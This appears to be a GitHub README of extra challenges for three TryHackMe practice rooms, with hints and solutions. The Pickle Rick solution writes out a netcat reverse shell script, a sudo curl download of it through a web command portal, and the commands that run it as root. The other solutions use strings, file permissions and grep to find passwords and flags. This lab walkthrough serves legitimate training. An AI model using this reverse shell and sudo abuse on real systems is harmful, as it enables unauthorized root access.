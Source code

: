 # TryHackMe Extra Challenges

## Free Rooms Index
<a href="#LinuxFundamentals1">Linux Fundamentals 1</a><br>
<a href="#PickleRick">Pickle Rick</a><br>
<a href="#Wonderland">Wonderland</a><br>
<br>
## Subscriber Rooms Index
tbd<br>
<br>
### Free Rooms Extra Challenges
<h4 id="LinuxFundamentals1"><a href="https://tryhackme.com/room/linux1">Linux Fundamentals 1</a></h4>
Don't follow the directions for using the shiba1 binary, but find another way to discover shiba2's password.<br>
<details>
<summary>Hint 1 (<i>click to expand</i>)</summary>
  
It's a simple reverse engineering task.

<details>
<summary>Hint 2</summary>
  
<a href="https://linux.die.net/man/1/strings">strings</a>

<details>
<summary>Solution</summary>

Doing <code>strings shiba1</code> and review shows it includes the line "cat /etc/shiba/shiba2".<br>
<code class="language-plaintext highlighter-rouge">ls -al /etc/shiba/shiba2</code> shows the file is:<br>
-rw-r--r-- 1 root root 9 Feb 13  2020 /etc/shiba/shiba2<br>
This is readable by any local user, so shiba1 can <code class="language-plaintext highlighter-rouge">cat /etc/shiba/shiba2</code> for the password.<br>
      
</details>
</details>
</details>

<br>
<h4 id="PickleRick"><a href="https://www.tryhackme.com/room/picklerick">Pickle Rick</a></h4>
When the web command portal is found, the clue encourages you to keep working with this access. There is another method that is easier.<br>
<details>
<summary>Hint 1 (<i>click to expand</i>)</summary>
  
Always check the permissions for your user.

<details>
<summary>Hint 2</summary>
  
A shell for the machine would remove limitations imposed on the web command portal.

<details>
<summary>Solution</summary>

It's possible to finish the Room quickly with the web command portal after checking the www-data user's <code class="language-plaintext highlighter-rouge">sudo -ll</code> and learning they have root access through sudo without a password. It's also possible to get a root shell by creating a local file called shell.sh as:<br>
\#!/bin/bash<br>
mkfifo /tmp/lol<br>
nc 10.10.10.10 8008 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol<br>
<br>
Serve from local with <code class="language-plaintext highlighter-rouge">python3 -m http.server 8009</code> then pull it to the target through the web command portal with:<br>
<code class="language-plaintext highlighter-rouge">sudo curl http://10.10.10.10:8009/shell.sh -o /tmp/shell.sh</code><br>
 After the transfer, stop the local http.server and replace with a local listener to catch the shell using <code class="language-plaintext highlighter-rouge">nc -nlvp 8008</code>.<br>
Finish by using the web command portal to modify the file as <code class="language-plaintext highlighter-rouge">sudo chmod +x /tmp/shell.sh</code> and then execute with <code class="language-plaintext highlighter-rouge">sudo /tmp/shell.sh</code> to connect.<br>
 
</details>
</details>
</details>

<br>
<h4 id="Wonderland"><a href="https://tryhackme.com/room/wonderland">Wonderland</a></h4>
The Room is meant to be finished by rooting the box, though both flags can be found with a different method.<br>
<details>
<summary>Hint 1 (<i>click to expand</i>)</summary>
  
Check the flag formats/masks and the Room tags. Tags are sometimes easier to see by doing a <a href="https://tryhackme.com/hacktivities?tab=search">search</a> for the Room name and looking at the preview in results.

<details>
<summary>Hint 2</summary>
  
It is not necessary to Deploy the machine.

<details>
<summary>Solution</summary>

The flag formats for Wonderland are very unusual for TryHackMe: they look like sentences or at least some kind of text. If you search Project Gutenberg, you can find a text-only format of Alice in Wonderland to copy local with:<br>
<code>wget http://www.gutenberg.org/files/11/11-0.txt</code><br>
Now we have the full text and <a href="https://www.gnu.org/software/grep/manual/grep.html#Introduction">grep</a> to search it.<br>
user.txt:<br>
<code class="language-plaintext highlighter-rouge">grep -sw -E '[[:graph:]]{10}[[:blank:]][[:graph:]]{3}[[:blank:]][[:graph:]]{11}' 11-0.txt</code><br>
<br>
root.txt is a little tricker by this method. Formatting the whole grep expression is an effort, but even with that dilligence it fails. However, that also requires learning how to add in checks for the commas, or include the counts in the "graph" portions. Those commas look helpful.<br>
Attempting only a search for the first portion:<br>
<code class="language-plaintext highlighter-rouge">grep -sw -E '[[:graph:]]{7}[,][[:blank:]][[:graph:]]{7}[,][[:blank:]][[:graph:]]{6}' 11-0.txt</code><br>
returns a single match, but on a line alone. Adding in the argument to get this line number from the text:<br>
<code class="language-plaintext highlighter-rouge">grep -swn -E '[[:graph:]]{7}[,][[:blank:]][[:graph:]]{7}[,][[:blank:]][[:graph:]]{6}' 11-0.txt</code><br>
returns 1737 for the line number. Using the <a href="https://linux.die.net/man/1/sed">sed</a> command to see what is happening in this area of the text:<br>
<code class="language-plaintext highlighter-rouge">sed '1732,1742!d' 11-0.txt</code><br>
reveals the two lines, separated from everything else, that can be entered to complete the flag.<br>
      
</details>
</details>
</details>

<br>
### Subscriber Rooms Extra Challenges
tbd<br>
<br>
